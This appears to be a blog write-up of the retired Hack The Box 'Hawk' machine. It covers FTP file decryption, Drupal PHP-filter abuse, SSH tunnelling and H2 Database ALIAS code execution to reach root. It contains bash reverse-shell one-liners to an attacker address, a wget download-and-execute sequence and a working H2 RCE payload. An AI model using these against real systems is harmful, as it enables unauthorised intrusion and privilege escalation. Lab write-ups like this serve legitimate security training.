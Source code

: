 ```yaml
---
layout: post
title: Hack The Box - Hawk
categories: hack-the-box
tags: [Linux, Web, Drupal, RCE, Cryptography, Networking, Pivoting, ssh]
image: /hackthebox/hawk/0.png
redirect_from: "/HackTheBox-Hawk/"
---
```


<hr>
#### Hawk has retired and this is my write-up about it.
#### It's a Linux box and it's ip is 10.10.10.102 so let's jump right in !
![](/images/hackthebox/hawk/0.png)
<hr>
### Nmap
#### Starting with a simple nmap scan to scan tor TCP , UDP ports and services.
`nmap -sV -sT -sU 10.10.10.102`
![](/images/hackthebox/hawk/1.png)
<br>
#### We will see that we got FTP on port 21 , SSH on port 22 , HTTP on port 80 running apache server and HTTP on port 8082 running H2 Database HTTP Console.
<br>
<hr>
### FTP
#### Since there's FTP on the box let's check if we can do anonymous login.
![](/images/hackthebox/hawk/2.png)
#### We could login as anonymous and we got a file called : .drupal.txt.enc
#### Since it ends with .enc then it's an encrypted file.
#### Let's run file command against it to get more information.
<br>
```
file drupal.txt.enc
drupal.txt.enc : openssl enc'd data with salted password , base64 encoded
```
#### So base64 encoded ? Let's decode it.
<br>
`base64 -d drupal.txt.enc > drupal_decoded.txt.enc`
![](/images/hackthebox/hawk/3.png)
#### Now the file is ready for bruteforcing.
<br>
<hr>
### Decrypting The File
#### To get the password for decryption we will use a tool called bruteforce-salted-openssl with rockyou.
#### It's already installed on kali but if you're not using kali you can get it from [here](https://github.com/glv2/bruteforce-salted-openssl)
#### Now there's a small problem. We need to specify the right cipher and digest to be able to crack the file so we have to do some guessing.
#### I already cracked it so the cipher is AES-256-CBC and the digest is SHA256.
`bruteforce-salted-openssl -t 50 -f /usr/share/wordlists/rockyou.txt -d sha256 drupal_decoded.txt.enc -1`
#### You may ask yourself why I didn't specify the cipher. I didn't specify it because the tool uses AES-256-CBC by default.
![](/images/hackthebox/hawk/4.png)
#### Great ! We got the password : friends . Let's decrypt the file.
`openssl aes-256-cbc -d -in drupal_decoded.txt.enc -out drupal.txt -k friends`
![](/images/hackthebox/hawk/5.png)
#### Now we have a username : "daniel" and a password : PencilKeybaordScanner123
<br>
<hr>
### Drupal
#### We see in the message that the password is for a portal. But what portal?
#### Let's visit the website on port 80
![](/images/hackthebox/hawk/6.png)
#### We see that it's running drupal CMS 
#### Let's login with the credentials we have.
#### Username daniel didn't work but admin worked and we got in as admin !
![](/images/hackthebox/hawk/7.png)
#### After we enumerate for a while we will see some interesting stuff.
#### The content tab which allows us to add content and the modules tab.
#### If we tried to add content we will get two options : Article or a basic page.
#### We will focus on basic pages for sure but we can only use html , filtered html and plain text .
#### Let's look in the modules tab.
#### We will find a module called php filter which allows us to use php in pages. After we enable it we will get a fourth option : php code
![](/images/hackthebox/hawk/8.png)
#### Great ! Let's get a reverse shell 
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.xx.xx/9090 0>&1'");`
![](/images/hackthebox/hawk/9.png)
![](/images/hackthebox/hawk/10.png)
#### Let's check our listener.
![](/images/hackthebox/hawk/11.png)
#### bam we got a low privilege shell as www-data !
<br>
<hr>
### Privilege Escalation to daniel
#### So we're now in as www-data let's check sensitive files first.
#### In drupal 7 documentation [This section](https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory) it's mentioned that settings.php contains where the database is located , how to access it and the credentials to access it. So this file has some sensitive information let's check that out.
![](/images/hackthebox/hawk/12.png)
![](/images/hackthebox/hawk/13.png)
#### We got a password : drupal4hawk , Let's try ssh
![](/images/hackthebox/hawk/14.png)
#### We got in ! But when we login we get a python interpreter. We will get a shell with pty
<br>
```
import pty
pty.spawn("/bin/sh")
```
![](/images/hackthebox/hawk/15.png)
#### And we got user ! :D
<br>
<hr>
### Accessing H2 Database
#### Now with some regular enumeration if we check out root processes we will see those 2 processes.
![](/images/hackthebox/hawk/16.png)
#### Sounds familiar ? Yup the H2 Database.
#### If we return to our nmap scan we will see port 8082 running H2 Database HTTP Console.
![](/images/hackthebox/hawk/1.png)
#### Now we know that it's running as root so let's try to access that.
![](/images/hackthebox/hawk/17.png)
#### Remote connection is disabled. This means that we can only connect locally.
#### To bypass that we will use ssh tunneling.
#### And if you don't know what ssh tunneling is ... simply we will forward the connection from the box to our machine. This means that the H2 console will be accessed locally from the box then that connection will be forwarded to us.
`ssh -L 8080:127.0.0.1:8082 daniel@10.10.10.102`
![](/images/hackthebox/hawk/18.png)
#### Now if we visit our localhost on port 8080 we will get the login page.
#### By default it doesn't have a password so we can access the console without credentials but when we login without credentials it gives an error.
![](/images/hackthebox/hawk/19.png)
#### Let's try changing the JDBC URL to something we know that it exists. /root
![](/images/hackthebox/hawk/20.png)
#### It worked . Now we have access to the console.
![](/images/hackthebox/hawk/21.png)
<br>
<hr>
### Abusing H2 Database ALIAS and Privilege Escalation to root
#### Basically the [CREATE ALIAS](http://www.h2database.com/html/grammar.html#create_alias) method creates a function that executes java code.
#### Since we can execute java code then we can do anything. So we will create a function that executes system commands then we will get a shell.
#### First we will create ALIAS called SHELLEXEC. The payload will be like this :
<br>
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
![](/images/hackthebox/hawk/22.png)
#### Then we will execute system commands by calling the function that we created. Let's execute whoami.
`call SHELLEXEC("whoami")`

![](/images/hackthebox/hawk/23.png)
#### And we see root :D
<br>
<br>
#### *NOTE: That H2 Database ALIAS exploit is not mine. Credits go to the creator . check his write-up about the exploit [here](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)*
<br>
<br>
<br>
#### now since we can execute system commands it's over ! We can get a root shell.
#### But We can't write a shell command and execute it right away it won't work so instead of that we can write our shell in a .sh file then upload it and execute it.
#### Another way is to use msfvenom but it's not needed here because the exploit is simple.
#### First we will create the shell file.
`bash -i >& /dev/tcp/10.10.xx.xx/1234 0>&1 > shell`
#### Then we will set up a HTTP server with python to host the shell.
`python -m SimpleHTTPServer 7777`
![](/images/hackthebox/hawk/24.png)
#### Now we will use wget to get the shell file on the box.
`call SHELLEXEC("wget http://10.10.xx.xx:7777/shell")`
![](/images/hackthebox/hawk/25.png)
![](/images/hackthebox/hawk/26.png)
#### We will make the file executable. 
`call SHELLEXEC("chmod +x shell")`
![](/images/hackthebox/hawk/27.png)
#### Then we will rename it to shell.sh
`call SHELLEXEC("mv shell shell.sh")`
![](/images/hackthebox/hawk/28.png)
#### And finally we execute it.
`call SHELLEXEC("bash shell.sh")`
![](/images/hackthebox/hawk/29.png)
#### We don't get a response which is a good sign. Let's check our listener.
![](/images/hackthebox/hawk/30.png)
#### And we get a shell as root ! :D
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Jerry](/hack-the-box/jerry/)
#### Next Hack The Box write-up : [Hack The Box - Active](/hack-the-box/active/)
<hr>
